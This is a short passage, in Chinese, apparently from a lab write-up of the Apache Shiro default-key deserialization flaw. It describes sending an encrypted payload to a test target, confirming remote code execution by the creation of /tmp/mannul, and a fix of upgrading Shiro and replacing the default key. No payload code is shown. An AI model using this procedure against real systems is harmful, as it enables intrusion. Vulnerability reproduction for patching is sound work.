4. 将生成的加密编码后的payload发送给靶机
5. 然后到靶机容器中检查是否能实现简单RCE发现成功RCE创建了文件/tmp/mannul
## 修复方案
更新shiro到1.2.4以上的版本。
不使用默认的加密密钥，改为随机生成密钥